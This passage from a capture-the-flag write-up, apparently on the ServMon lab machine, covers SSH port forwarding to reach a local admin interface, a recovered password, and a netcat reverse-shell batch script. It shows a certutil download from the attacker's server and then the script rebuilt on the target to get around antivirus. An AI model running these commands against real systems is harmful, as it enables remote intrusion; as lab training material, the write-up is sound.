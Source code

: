 `allowed hosts = 127.0.0.1` tells us we can authenticate only from localhost.

But as we have an SSH access we can do some local port forwarding (you can read
about this technique on my [article about pivoting](https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)).

```
$ ssh nadine@10.10.10.184 -L 127.0.0.1:9999:127.0.0.1:8443 -N
```

We map the local port 8443 on ServMon machine to local port 9999 on our machine.

Now we should be able to authenticate at https://127.0.0.1:9999/ with password
`ew2x6SsGTxjRwXOT`.

Now the exploit tell us to enable some modules:

- CheckExternalScripts
- Scheduler

Now let's prepare our backdoor script: `cyfun.bat`

```bat
@echo off
c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe
```

We can try to download the bat script with [Certutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/#download)
and a local HTTP server.

```
$ python -m http.server --bind 10.10.15.26
```

But that's a failure:

```
PS C:\Users\Nadine> cd C:\temp

PS C:\temp> certutil.exe -urlcache -split -f http://10.10.15.26:8000/cyfun.bat cyfun.bat
At line:1 char:1
+ certutil.exe -urlcache -split -f http://10.10.15.26:8000/cyfun.bat no ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

We can't download our script because it's blocked by an AV. So let's create is on
the server directly.

```
PS C:\temp> echo "@echo off" > cyfun.bat
PS C:\temp> echo "c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe" >> cyfun.bat
PS C:\temp> gc cyfun.bat
@echo off
c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe
```
